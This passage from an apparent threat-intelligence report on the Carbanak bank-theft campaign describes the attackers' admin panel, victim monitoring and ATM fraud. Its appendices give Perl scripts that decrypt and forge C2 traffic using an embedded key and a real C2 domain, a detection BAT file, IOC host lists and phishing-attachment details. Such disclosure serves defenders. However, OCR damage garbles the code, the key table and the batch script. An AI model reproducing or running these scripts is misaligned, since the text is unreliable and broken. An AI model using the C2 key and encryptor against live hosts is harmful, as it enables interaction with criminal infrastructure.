| Команда боту |  |  |  |  |  | Комментарий |  |  |  |  |  |
| Быстрые команды |  |  |  |  |  |  |  |  |  |  |  |
| Запуск RDP | Запуск VNC nc |  | Запуск Socks5 | Taxable | Проброс порта | Закрыть все порты |  | Отключить бот |  |  |  |
|  | Порт: 5900 |  |  |  |  |  |  |  | Сбросить логи |  | Настройки сервера |

Figure 13. Carbanak administration panel running in Windows able to run RDP, VNC, proxy and tunnels via Carbanak

Victim systems are catalogued in the servers' databases. The victims belong to a number of different communities, thus simplifying administration. In all, 85 different victims belonging to seven communities were found.

#### Attacker´s operational details

Additionally, the malicious servers contain video files that capture a victim´s activity. While the videos are stored using a compressed format which provides poor image quality, the selected format minimizes upload bandwith and is of sufficient quality for the attackers to understand the victims' activities.

The video file naming conventions used the name of the application in the foreground (e.g., Outlook, Cmd, etc.) and only recorded user activity. This helped the attackers to both navigate to files of interest and to discard superfluous files.



Figure 14. Special video player designed to watch Carbanak´s video stream

Using the intelligence gained from video and other monitoring techniques, the attackers developed an operational picture of the victim's workflow. tooling and practices. This picture helps the attackers to deploy their malicious operations, for example:

- Attackers created fake transactions in the victim's internal database after the verification process, thus avoiding discovery of the fraudulent activity;
- Attackers used the victim's internal command utilities to insert fraudulent . operations in the transaction queue.

In general, the attackers demonstrated great versatility, using attack methodologies best suited to a specific victim's operational methodology. However, they seemed to deliberately limit the amount of money stolen per victim to $10 million USD. This limit may be explained as the maximum amount of money that can be transferred via mule services, or the maximum amount of money that is budgeted in banks for fraud risks in order to minimize the chances of LEAs and the bank´s anti-fraud teams from doing a full blown analysis.

| A | A | B | E |  | H | J | K |  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 1 | Index |  | Random Keys |  |  | KVC | KVC of Key | ATM |
| 2 |  | FEC |  |  |  | ODEW |  |  |
| 3 | 102 | 891 |  |  |  | :B3 |  |  |
| 4 |  | DS |  |  |  | : Je |  |  |
| 5 | 103 | 62 |  |  |  | AF3 |  |  |
| б |  | B6 |  |  |  | =86 |  |  |
| 7 | 104 | BA |  |  |  | IDE |  |  |
| 8 |  | AE |  |  |  | :27 |  |  |
| 9 | 105 | DC |  |  |  | ،BD |  |  |
| 10 |  | 5B |  |  |  | iE7 |  |  |
| 11 | 106 | 541 |  |  |  | :7A |  |  |
| 12 |  | 92 |  |  |  | 3B8 |  |  |
| 13 | 107 | Be |  |  |  | 73B |  |  |
| 14 |  | 041 |  |  |  | IEa |  |  |
| 15 | 108 | 9B |  |  |  | 502 |  |  |
| 16 |  | 07 |  |  |  | IDe |  |  |
| 17 | 109 | ES |  |  |  | 150 |  | ID |
| 18 |  | AB |  |  |  | IEC |  |  |
| 19 | 110 | DC |  |  |  | 3EA |  |  |
| 20 |  | 8C |  |  |  | 77E |  |  |
| 21 | 111 | 51 |  |  |  | 741 |  |  |
| 22 |  | 08 |  |  |  | IES |  |  |
| 23 | 112 | 4C |  |  |  | )E5 |  |  |
| 24 |  | 20 |  |  |  | 334 |  |  |
| 25 | 113 | F8I |  |  |  | )BF |  |  |
| 26 |  | CD |  |  |  | i8F |  |  |
| 27 | 114 | ୧୫। |  |  |  | 3FE |  |  |
| 28 |  | Ва |  |  |  | ?Be |  |  |
| 29 | 115 | 75 |  |  |  | IEA |  |  |
| 30 |  | B5 |  |  |  | 292 |  |  |
| 31 | 116 | 7F |  |  |  | 36 |  |  |
| 32 |  | D0 |  |  |  | )EE |  |  |
| 33 | 117 | 4F |  |  |  | ્ટર્ |  |  |
| 34 |  | BA |  |  |  | 3EE |  |  |
| 35 | 118 | вз |  |  |  | 19C |  |  |
| 36 |  | 4C |  |  |  | -4F |  |  |
| 37 | 119 | 1C |  |  |  | FB |  |  |
| 38 |  |  | FITT I TOO I UNT PORCY LOUSE | לכסר | 0430 IJF4 | r2407D |  |  |

Figure 15. List of PIN KVC used on ATMs

Sensitive bank documents have be found on the servers that were controlling Carbanak. Thev included classified emails, manuals, crypto kevs, passwords and so on. For example, the file in the above figure has KVC (key verification codes) keys that are used by ATMs to check the integrity of the PIN numbers of its users.

In other cases involving ATMs, the criminals were able to control computers that had access to the internal ATM network. If the bank had enabled remote access to ATMs, the criminals started using this access to remotely withdraw cash. Criminals used no malware to operate the ATM dispenser; instead they used standard utilities to control and test ATM equipment.

# 3. Conclusions

Malware targeting the finance industry (both companies and consumers) continues to evolve. The Carbanak malware used in the on-going campaign described in this report has been very successful in terms of generating revenue. Of particular interest are the attack methods, similar to those used in sophisticated cyber-espionage APTs. As such, thev represent a new and disturbing trend in the cybercrime market of increasing attack sophistication.

Despite increased awareness of cybercrime within the financial services sector. it appears that spear phishing attacks and old exploits (for which patches have been disseminated) remain effective against larger companies. Attackers always use this minimal effort approach in order to bypass a victim´s defenses.

Advanced control and fraud detection systems have been used for years by the financial services industry. However, these focus on fraudulent transactions within customer accounts. The Carbanak attackers bypassed these protections, by for example, using the industry-wide funds transfer (the SWIFT network), updating balances of account holders and using disbursement mechanisms (the ATM network).

In neither of these cases did the attackers exploit a vulnerability within the service. Instead, they studied the victim´s internal procedures and pinpointed who they should impersonate locally in order to process fraudulent transactions through the aforementioned services.

It is clear that the attackers were very familiar with financial services software and networks. As part of an automated reconnaissance phase, the Carbanak malware checked victim systems for the presence of specialized and specific banking software. Only after the presence of banking systems was confirmed, were victims further exploited. To date, attacks against approximately 300 IP addresses around the world have been observed on analyzed C2s. It is possible that these attacks were coordinated to maximize returns prior to industry-wide information sharing and the implementation of countermeasures.

Existing telemetry indicates that the Carbanak attackers are trying to expand operations to other Baltic and Central Europe countries, the Middle East, Asia and Africa. Carbanak may be responsible for losses as high as $1 billion USD.

We believe that the Carbanak campaign is a clear indicator of a new era in cybercrime in which criminals use APT techniques directly against the financial industry instead of through its customers. APTs are not only for stealing information anymore.

# APPENDIX 1: C2 protocol decoders

#### Decryptor

```
#!/usr/bin/perl -w
#Work with Carbanak c2
use strict;
use warnings; use Crypt::CBC;
use Crypt : : Cipher : : RC2 ;
use MIME::Base64; use LWP::Simple;
#my $c2 = "worldnewsonline.pw";
#my $request = "1234567890123456";
my $request was = "JybDHkfWGURJPuWeUpPMX/ca9BThbDim0Hdk/9YzkJS7m8a19tz
QwZxo1vvQ/r/7SHJcCm4tdpZGp.dmDwKf MjpWBM18eX8VUiimyaUZMGoClZ6eShS9tLCK
tuHvlMQ3Dc26y90FbPIua.7LGHGZCBPj.vd08DUENC5oAE4V fyUz.shtml";
$reguest was =~ tr/\/\=\&\?//d; my $replace = "";
my $find=".shtml";
$request was =~ s/\Q$find\E//q;
$reguest was =~ s/-/+/g;
$reguest was =~ s/\./\//g; print "$reguest was\n";
my $iv = substr $reguest was, 0, 8;
$request was = substr $request was, 8;
my $base64 decoded1 = decode base64("$request was");
print "$base64 decoded1\n";
my $length = length($base64 decoded1); print "length is: $length\n";
print "iv is: $iv\n";
print "req is: $request was\n";
my $base64 decoded = "${base64 decoded1}";
my $key = "vfDGbiwmiqdN6E2N";
#my $key = "1234567812345678";
my $cipher = Crypt::CBC->new( -cipher=>'Cipher::RC2', -header=>'none',
-literal_key=>1, -key=>$key, - keysize=>16, -iv=>$iv );
my $plaintext = $cipher->decrypt ($base64 decoded); print "Decode:\
n$plaintext\n";
#Decrypt is
#HWUMRbvuwKQCrkOhuckIXpdFqtd|new0878802c8004333a3|data=listprocess|pro
cess=svchost.exe|idproce ss=4294967295|lBHReFDRDfYG
#my $url = " encoded";
#print $url;
#my $contents = get($url);
#print $contents;
```
#### Encryptor

```
#!/usr/bin/perl -w
#Decrypt Carbanak c2 responce
use strict;
use warnings; use Crypt::CBC;
use Crypt::Cipher::RC2; use MIME::Base64;
use LWP::Simple;
my $c2 = "worldnewsonline.pw"; my $reguest =
"HWUMRbvuwK0CrkOhuckIXpdFqtd|new0878802c8004333a3|data=listprocess|pro
cess=svchost.exe|idproces s=4294967295|lBHReFDRDfYG";
my $iv = "JybDHkfW"; #should be random my $key = "vfDGbiwmiqdN6E2N";
my $cipher = Crypt::CBC->new( -cipher=>'Cipher::RC2', -header=>'none',
-literal key=>1, -key=>$key, - keysize=>16, -iv=>$iv );
my $ciphertext = $cipher->encrypt($reguest);
my $base64 encoded = encode base64("$ciphertext");
$base64 encoded =~ s/\x0a//q;
$base64 encoded =~ s/\//\./g;
$base64 encoded =~ s/\+/-/g;
my $base64 encoded ex = "${iv}${base64 encoded}.php"; my $url =
" encoded ex}";
print $url;
#
GURJPuWeUpPMXca9BThbDim0Hdk9YzkJS7m8a19tzQwZxo1vvQr7SHJcCm4tdp ZGp.
dmDwKfMjpW.BM18eX8VUiimyaUZMGoClZ6eShS9tLCKtuHvlMQ3Dc26y90FbPIua.7LGHG
ZCBPj.vd08D UENC5o.AE4VfyUz..php|
my $contents = get($url); print $contents;
```
TLP: White

#### Decrypt Files from CnC

```
#!/usr/bin/perl -w
#Decrypt Files from sended from c2
use strict;
use warnings; use Crypt::CBC;
use Crypt::Cipher::RC2;
use MIME::Base64; use LWP::Simple;
my $file=$ARGV[0]; open(DATA, "<$file"); open(DATA1, "<$file");
open(DATA2, "<$file"); binmode(DATA); binmode(DATA1); binmode(DATA2);
my ($data, $n, $offset);
while (($n = read DATA, $data, 1, $offset) != 0) { $offset += $n; } my
$length = $offset;
my $iv len = read DATA1, my $iv, 8, 0; read DATA2, my $crypt data,
$length, 8; my $key = "vfDGbiwmiqdN6E2N";
my $cipher = Crypt::CBC->new( -cipher=>'Cipher::RC2', -header=>'none',
-literal key=>1, -key=>$key, - keysize=>16, -iv=>$iv );
my $plaintext = $cipher->decrypt($crypt data); print "$plaintext";
```
# APPENDIX 2: BAT file to detect infection

```
@echo off
for /f %%a in ('hostname') do set "name=%%a" echo %name%
del /f %name%.loq 2> nul
if exist "c:\Documents and settings\All users\application data\
          mozilla\*.bin" echo "BIN detected" >> %name%.loq
if exist %SYSTEMROOT%\System32\com\svchost.exe echo "COM
          detected" >> %name%.log
if exist "c:\ProqramData\mozilla\*.bin" echo "BIN2 detected"
>> %name%.log
if exist %SYSTEMROOT%\paexec* echo "Paexec detected"
>> %name%.log
if exist %SYSTEMROOT%\Syswow64\com\svchost.exe echo "COM64
          detected" >> %name%.log
SC QUERY state= all | find "SERVICE NAME" | findstr "Sys$"
          if q&ERRORLEVEL% == q0 SC QUERY state= all | find
          "SERVICE NAME" | findstr "Sys$" >> %name%.log
if not exist ¾nameశ.log echo Ok > 웅nameశ.log xcopy /y ɣname웅.log
          "\\<IP>\logVirus
```
# APPENDIX 3: IOC hosts

|  | First | Source: Sample md5/Detection name/ |  |
| --- | --- | --- | --- |
| IP/Domain name | seen in Type | System | Comment |
| 108.61.197.254 | 2014-07 Carbanak's | 1046652E0AAA682F89068731FA5E8E50 |  |
|  | Linux CnC |  |  |
| 112.78.3.142 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| 118.163.216.107 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used to install |
|  |  |  | Carbanak |
| 131.72.138.18 | 2014-11 Carbanak's | Internet scan |  |
|  | Linux CnC |  |  |
| 141.60.162.150 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| 146.185.220.200 | 2014-08 Carbanak's | Victim's logs |  |
|  | Linux CnC |  |  |
| 162.221.183.109 | 2014-12 Carbanak's | 1684a5eafd51852c43b4bca48b58980f |  |
|  | Windows |  |  |
|  | backconnect |  |  |
| 162.221.183.11 | 2014-12 Carbanak's | 1684a5eafd51852c43b4bca48b58980f |  |
|  | Windows |  |  |
|  | backconnect |  |  |
| 173.201.45.158 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used to install |
|  |  |  | Carbanak |
| 173.237.187.203 | 2014-08 RedKit | Victim's logs | Exploits drop zone |
|  | ExploitKit |  | that used to install |
|  |  |  | Carbanak |
| 174.143.147.168 | 2014-10 Related to |  | CnC of other malware |
|  | Carbanak |  | used to install |
|  |  |  | Carbanak |
| 185.10.56.59 | 2014-08 Carbanak's | 551d41e2a4dd1497b3b27a91922d29cc |  |
|  | Windows |  |  |
|  | backconnect |  |  |
| 185.10.56.59:443 2014-07 Carbanak's |  | 4afafa81731f8f02ba1b58073b47abdf |  |
|  | Windows |  |  |
|  | backconnect |  |  |
| 185.10.58.175 | 2014-07 Carbanak's | 4afafa81731f8f02ba1b58073b47abdf | IP of |
|  | Linux CnC |  | financialnewsonline. |
|  |  |  | pw |
| 188.138.16.214 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| 188.138.98.105 | 2014-10 Carbanak's | 0AD4892EAD67E65EC3DD4C978FCE7D92 |  |
|  | Windows |  |  |
|  | backconnect |  |  |

|  | First |  | Source: Sample md5/Detection name/ |  |
| --- | --- | --- | --- | --- |
| IP/Domain name | seen in | Type System |  | Comment |
| 188.40.224.76 |  | 2014-10 Related to Victim's logs |  | CnC of other malware |
|  |  | Carbanak |  | used after Carbanak's |
|  |  |  |  | infection |
| 190.97.165.126 |  | 2014-08 Related to Victim's logs |  | lp of SSHD backdoor |
|  |  | Carbanak |  | installed after |
|  |  |  |  | Carbanak's infection |
| 194.44.218.102 |  | 2014-10 Related to Victim's logs |  | CnC of other malware |
|  |  | Carbanak |  | used after Carbanak's |
|  |  |  |  | infection |
| 195.113.26.195 |  | 2014-11 Related to Victim's logs |  | CnC of other malware |
|  |  | Carbanak |  | used to install |
|  |  |  |  | Carbanak |
| 198.101.229.24 |  | 2014-10 Related to Victim's logs |  | CnC of other malware |
|  |  | Carbanak |  | used after Carbanak's |
|  |  |  |  | infection |
| 199.255.116.12 |  | 2014-10 Related to Victim's logs |  | CnC of other malware |
|  |  | Carbanak |  | used after Carbanak's |
|  |  |  |  | infection |
| 199.79.62.69 |  | 2014-07 Related to Victim's logs |  | Exploits used to install |
|  |  | Carbanak |  | Carbanak |
| 204.227.182.242 |  | 2014-10 Related to Victim's logs |  | CnC of other malware |
|  |  | Carbanak |  | used after Carbanak's |
|  |  |  |  | infection |
| 208.109.248.146 |  | 2014-10 Related to Victim's logs |  | CnC of other malware |
|  |  | Carbanak |  | used after Carbanak's |
|  |  |  |  | infection |
| 209.222.30.5 |  | 2014-07 Carbanak's | 1046652E0AAA682F89068731FA5E8E50 |  |
|  |  | Windows |  |  |
|  |  | backconnect |  |  |
| 216.170.117.7 |  | 2015-02 Carbanak´s | 6ae1bb06d10f253116925371c8e3e74b |  |
|  |  | Linux Cnc |  |  |
| 216.170.117.88 |  | 2015-02 Carbanak´s |  |  |
|  |  | Linux CnC |  |  |
| 217.172.183.184 |  | 2014-10 Related to Victim's logs |  | CnC of other malware |
|  |  | Carbanak |  | used after Carbanak's |
|  |  |  |  | infection |
| 217.172.186.179 |  | 2014-10 Carbanak's Victim's logs |  |  |
|  |  | Linux CnC |  |  |
| 218.76.220.106 |  | 2014-10 Related to Victim's logs |  | CnC of other malware |
|  |  | Carbanak |  | used to install |
|  |  |  |  | Carbanak |
| 31.131.17.79 |  | 2014-09 Carbanak's Victim's logs |  |  |
|  |  | plugin CnC |  |  |
| 31.131.17.81 |  | 2014-09 Carbanak's Victim's logs |  | CnC of other malware |
|  |  | plugin CnC |  | used after Carbanak's |
|  |  |  |  | infection |
| 32dsffds8743jsdf. |  | 2014-10 Carbanak's | 08f83d98b18d3dff16c35a20e24ed49a |  |
| com |  | Linux CnC |  |  |

|  | First | Source: Sample md5/Detection name/ |  |
| --- | --- | --- | --- |
| IP/Domain name | seen in Type | System | Comment |
| 37.235.54.48 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| 37.46.114.148 | 2014-10 Carbanak's | Victim's logs |  |
|  | Linux CnC |  |  |
| 37.59.202.124 | 2014-12 Carbanak's | Internet scan |  |
|  | Linux CnC |  |  |
| 5.101.146.184 | 2014-10 Carbanak's | Victim's logs |  |
|  | Linux CnC |  |  |
| 5.135.111.89 | 2015-02 Carbanak´s | 100d516821d99b09718b362d5a4b9a2f |  |
|  | Windows |  |  |
|  | backconnect |  |  |
| 5.61.32.118 | 2014-10 Carbanak's | 972092CBE7791D27FC9FF6E9ACC12CC3 |  |
|  | Windows |  |  |
|  | backconnect |  |  |
| 5.61.38.52 | 2014-10 Carbanak's | 08f83d98b18d3dff16c35a20e24ed49a |  |
|  | Windows |  |  |
|  | backconnect |  |  |
| 50.115.127.36 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| 50.115.127.37 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| 55.198.6.56 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| 61.7.219.61 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used to install |
|  |  |  | Carbanak |
| 62.75.224.229 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| 66.55.133.86 | 2014-10 Carbanak's | 972092CBE7791D27FC9FF6E9ACC12CC3 |  |
|  | Linux CnC |  |  |
| 67.103.159.140 | 2014-08 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used to install |
|  |  |  | Carbanak |
| 69.64.48.125 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used to install |
|  |  |  | Carbanak |
| 74.208.170.163 | 2014-10 Related to | Victim's logs | Used by criminals |
|  | Carbanak |  | to control infected |
|  |  |  | machines |
| 78.129.184.4 | 2014-10 Related to | Victim's logs | Used by criminals |
|  | Carbanak |  | to control infected |
|  |  |  | machines |

|  | First | Source: Sample md5/Detection name/ |  |
| --- | --- | --- | --- |
| IP/Domain name | seen in Type | System | Comment |
| 79.99.6.187 | 2014-08 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used to install |
|  |  |  | Carbanak |
| 81.4.110.128 | 2014-08 Related to | Victim's logs | Used by criyminals |
|  | Carbanak |  | to control infected |
|  |  |  | machines |
| 83.16.41.202 | 2014-10 Related to | Victim's logs | Used by criminals |
|  | Carbanak |  | to control infected |
|  |  |  | machines |
| 83.166.234.250 | 2014-10 Carbanak's | F66992766D8F9204551B3C42336B4F6D |  |
|  | Windows |  |  |
|  | backconnect |  |  |
| 83.246.67.58 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used to install |
|  |  |  | Carbanak |
| 85.25.117.154 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| 85.25.20.109 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| 85.25.207.212 | 2014-10 Related to | Victim's logs | Used by criminals |
|  | Carbanak |  | to control infected |
|  |  |  | machines |
| 87.106.8.177 | 2014-10 Related to | Victim's logs | Exploits used to install |
|  | Carbanak |  | Carbanak |
| 87.98.153.34 | 2014-10 Related to | Victim's logs | Used by criminals |
|  | Carbanak |  | to control infected |
|  |  |  | machines |
| 88.198.184.241 | 2014-12 Carbanak's | 6AE1BB06D10F253116925371C8E3E74B |  |
|  | Windows |  |  |
|  | backconnect |  |  |
| 91.194.254.38 | 2014-07 Carbanak's | 446c75b77836b776ec3f502fce48b014 |  |
|  | Linux CnC |  |  |
| 91.194.254.90 | 2014-09 Carbanak's | Victim's logs |  |
|  | Linux CnC |  |  |
| 91.194.254.91 | 2014-09 Carbanak's | Victim's logs |  |
|  | Linux CnC |  |  |
| 91.194.254.92 | 2014-07 Carbanak's | Internet scan |  |
|  | Linux CnC |  |  |
| 91.194.254.93 | 2014-07 Carbanak's | Internet scan |  |
|  | Linux CnC |  |  |
| 91.194.254.94 | 2014-07 Carbanak's | Internet scan |  |
|  | Linux CnC |  |  |
| 91.194.254.98 | 2014-07 Carbanak's | Internet scan |  |
|  | Linux CnC |  |  |

|  | First | Source: Sample md5/Detection name/ |  |
| --- | --- | --- | --- |
| IP/Domain name | seen in Type | System | Comment |
| 93.95.102.109 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| 93.95.99.232 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| 94.247.178.230 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| 95.0.250.113 | 2014-10 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used after Carbanak's |
|  |  |  | infection |
| adguard.name | 2014-07 Carbanak's | Victim's logs |  |
|  | Linux CnC |  |  |
| beefeewhewhush- | 2014-07 Andromeda's | Victim's logs | CnC of other malware |
| eelu biz | C&C |  | used to install |
|  |  |  | Carbanak |
| comixed.org | 2014-12 Carbanak's | 1684a5eafd51852c43b4bca48b58980f |  |
|  | Linux CnC |  |  |
| coral-trevel.com | 2014-07 Carbanak's | Internet scan |  |
|  | Linux CnC |  |  |
| datsun-auto.com | 2014-04 Carbanak's | cb915d1bd7f21b29edc179092e967331 |  |
|  | Linux CnC |  |  |
| di-led.com | 2014-07 Carbanak's | 446c75b77836b776ec3f502fce48b014 |  |
|  | Linux CnC |  |  |
| financialnewson- | 2014-07 Carbanak's | 4afafa81731f8f02ba1b58073b47abdf |  |
| line.pw | Linux CnC |  |  |
| financialwiki.pw | 2014-07 Carbanak's | 4afafa81731f8f02ba1b58073b47abdf |  |
|  | Linux CnC |  |  |
| flowindaho.info | 2014-07 Carbanak's | reverse IP 91.194.254.93 |  |
|  | Linux CnC |  |  |
| freemsk-dns.com | 2014-08 Carbanak's | reverse IP 146.185.220.200 |  |
|  | Linux CnC |  |  |
| gjhhghjg6798.com 2014-10 Carbanak's |  | 972092CBE7791D27FC9FF6E9ACC12CC3 |  |
|  | Linux CnC |  |  |
| glonass-map.com | 2014-12 Carbanak's | 6AE1BB06D10F253116925371C8E3E74B |  |
|  | Linux CnC |  |  |
| great-codes.com | 2014-10 Carbanak's | 0AD4892EAD67E65EC3DD4C978FCE7D92 |  |
|  | Linux CnC |  |  |
| icafyfootsinso.ru | 2014-08 Related to | Victim's logs | Used by criminals |
|  | Carbanak |  | to control infected |
|  |  |  | machines |
| idedroatyxoaxi.ru | 2014-08 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used to install |
|  |  |  | Carbanak |

|  | First | Source: Sample md5/Detection name/ |  |
| --- | --- | --- | --- |
| IP/Domain name | seen in Type | System | Comment |
| ivaserivaseeer.biz | 2014-08 Related to | Victim's logs | CnC of other malware |
|  | Carbanak |  | used to install |
|  |  |  | Carbanak |
| microloule461soft- 2014-10 Carbanak's |  | F66992766D8F9204551B3C42336B4F6D |  |
| c1pol361.com | Linux CnC |  |  |
| microsoftc1pol361. 2014-10 Carbanak's |  | F66992766D8F9204551B3C42336B4F6D |  |
| com | Linux CnC |  |  |
| mind-finder.com | 2014-07 Carbanak's | 0AD4892EAD67E65EC3DD4C978FCE7D92 |  |
|  | Linux CnC |  |  |
| operatemesscont. | 2014-08 Connect to | Victim's logs | Used by criminals |
| net | infected sshd |  | to control infected |
|  |  |  | machines |
| paradise-plaza.com 2014-07 Carbanak's |  | Internet scan |  |
|  | Linux CnC |  |  |
| public-dns.us | 2014-08 Carbanak's | reverse IP 146.185.220.200 |  |
|  | Linux CnC |  |  |
| publics-dns.com | 2014-07 Carbanak's | Internet scan |  |
|  | Linux CnC |  |  |
| systemsvc.net | 2014-11 Carbanak's | reverse IP 131.72.138.18 |  |
|  | Linux CnC |  |  |
| system-svc.net | 2014-11 Carbanak's | reverse IP 131.72.138.18 |  |
|  | Linux CnC |  |  |
| traider-pro.com | 2014-12 Carbanak's | reverse IP 91.194.254.94 |  |
|  | Linux CnC |  |  |
| travel-maps.info | 2014-07 Carbanak's | reverse IP 91.194.254.38 |  |
|  | Linux CnC |  |  |
| update-java.net | 2014-08 Carbanak's | reverse IP 146.185.220.200 |  |
|  | Linux CnC |  |  |
| veslike.com | 2014-07 Carbanak's | Internet scan |  |
|  | Linux CnC |  |  |
| wefwe3223wfdsf. | 2014-10 Carbanak's | 08f83d98b18d3dff16c35a20e24ed49a |  |
| com | Linux CnC |  |  |
| worldnews24.pw | 2014-08 Carbanak's | 551d41e2a4dd1497b3b27a91922d29cc |  |
|  | Linux CnC |  |  |
| worldnewsonline.pw 2014-08 Carbanak's |  | 551d41e2a4dd1497b3b27a91922d29cc |  |
|  | Linux CnC |  |  |

# APPENDIX 4: Spear phishing

This section contains details on spear phishing emails sent by the attackers to infect victims.

| MD5: |  | 8fa296efaf87ff4d9179283d42372c52 |  |
| --- | --- | --- | --- |
| Name of attachment: |  | Соответствие ФЗ-115 от 24.06.2014г.doc |  |
| Drops executable: |  |  |  |
| MD5: |  | a1979aa159e0c54212122fd8acb24383 | (Carbanak) |
| Compiled |  | Mon Apr 04 20:00:57 2011 | (Probably fake) |
| C2 | on | update-java.net |  |
| C2 | key | 1234567812345678 |  |
| RDP | on | 37.235.54.48:443 |  |
| MD5: Name of attachment: |  | 665b6cb31d962aefa3037b5849889e06 Запрос.doc |  |
| Drops executable: |  |  |  |
| MD5: |  | 4afafa81731f8f02ba1b58073b47abdf | (Carbanak) |
| Compiled |  | Tue Jul 01 03:20:06 2014 |  |
| Connects to: |  |  |  |
|  |  | financialnewsonline.pw/FYocDxXpn5MXsHwZX/kLUAbd3w2/uUTsarcVKYk2W3B6hnc |  |
|  |  | Z/Gafh8U1W805Lo0N/np7E3ICR6qx8keLDJZqUGXJKBDzfc6VYz9TNllktObQ.htm |  |
| (185.10.58.175) |  |  |  |
| C2 | on | financialnewsonline.pw, financialwiki.pw |  |
| C2 | key | TXeyuryWcluzxkWnyu |  |
| RDP | on | 185.10.56.59:443 |  |
| MD5: |  | 2c395f211db2d02cb544448729d0f081 |  |
| Name of attachment: |  | new.doc |  |
| Drops executable: |  |  |  |
| MD5: |  | 551d41e2a4dd1497b3b27a91922d29cc | (Carbanak) |
| Compiled |  | Mon Aug 04 01:10:40 2014 |  |
| Connects to: |  |  |  |
|  |  |  |  |
|  |  | m8a19tzQwZxo1vvQ/r/7SHJcCm4tdpZGp.dmDwKfMjpWBM18eX8VUiimyaUZMGoClZ6 |  |
|  |  | eShS9tLCKtuHvlMQ3Dc26y90FbPlua.7LGHGZCBPj.vd08DUENC5oAE4VfyUz.shtml |  |
| C2s | on | worldnewsonline.pw, worldnews24.pw |  |
| C2 | key | JDvkyfhZxkMmDSwUkqvRelvC |  |
| RDP | on | 185.10.56.59:443 |  |
| MD5: |  | 31e16189e9218cb131fdb13e75d0a94f |  |
| Name of attachment: |  | Анкета-Заявление.doc |  |
| Drops executable: |  |  |  |
| MD5: |  | 4e107d20832fff89a41f04c4dff1739b | (Carbanak) |
| C2 | on | public-dns.us |  |
| C2 | kev | 1234567812345678 |  |
| RDP | on | 37.235.54.48:443 |  |

#### KASPERSKY:

| MD5: | db83e301564ff613dd1ca23c30a387f0 |
| --- | --- |
| Name of attachment: | Соответствие ФЗ-115 от 21.07.2014г.doc |
| Drops executable: |  |
| MD5: | cb915d1bd7f21b29edc179092e967331 (Carbanak) |
| Compiled | Tue Apr 08 05:44:12 2014 |
| Connects to: |  |
|  | datsun-auto.com/bDqxEs/Ta6IPJq3zqmRY-.5/8SgGLA- |
|  | F/I9CstBYT1rK7kx.440Sbtru.cgi?QVzF=tNM2gdtMLscx5bB4ury M&PfpxBukmc0aD- |
| Ucygbtzv4=f8fx |  |
| MD5: | f88a983fc0ef5bb446ae63250e7236dd |
| Name of attachment: | Приглашение.msg |
| Drops executable: |  |
| MD5: | 3dc8c4af51c8c367fbe7c7feef4f6744 (Carbanak) |
| Compiled | Fri Aug 08 00:48:07 2014 |
| C2s | on worldnewsonline.pw, worldnews24.pw |
| C2 | vfDGbiwmiqdN6E2N key |
| RDP | on 185.10.56.59:443 |
| MD5: | c4a6a111a070856c49905d815f87ab49 |
| Name of attachment: | ЧОСВЯЮООАГЖЦСЦЧОЧю |
| Drops executable: |  |
| MD2: | cb915d1bd7f21b29edc179092e967331 (Carbanak) |
| Connects to: |  |
| GET |  |
|  | /cBAWFvkXi94QxShRTaVVn/YzAxD/X0sZEud.5gNltbvozl3tqT5ly9UYLVii13.bml?tlxCFi |
|  | Busj=20Vj&9GP=a5houGz&K.F=T&l0.7FBN75=nMPDrlGXq4s7clAQ0Cl662lwVjxvsiT0lG |
| OdOpd |  |
| HTTP/1.1 |  |
| Host: | datsun-auto.com |
| MD5: | 86e48a9be62494bffb3b8e5ecb4a0310 |
| Name of attachment: | Приглашение.doc |
| Drops executable: |  |
| MD5: | 3dc8c4af51c8c367fbe7c7feef4f6744 (Carbanak) |
| Compiled | Fri Aug 08 00:48:07 2014 |
| MD5: | 6c7ac8dfd7bc5c2bb1a6d7aec488c298 |
| Name of attachment: | Соответствие ФЗ-115 от 02.07.2014г..doc, |
| Drops executable: |  |
| MD5: | cb915d1bd7f21b29edc179092e967331 (Carbanak) |
| Compiled | Tue Apr 08 05:44:12 2014 |
| Connects to: |  |
|  | datsun-auto.com/bDqxEs/Ta6IPJq3zqmRY-.5/8SgGLA- |
|  | F/I9CstBYT1rK7kx.440Sbtru.cgi?QVzF=tNM2gdtMLscx5bB4uryjM&PfpxBukmc0aD- |
| Ucygbtzv4=f8fx |  |

# APPENDIX 5: MD5 hashes of Carbanak samples

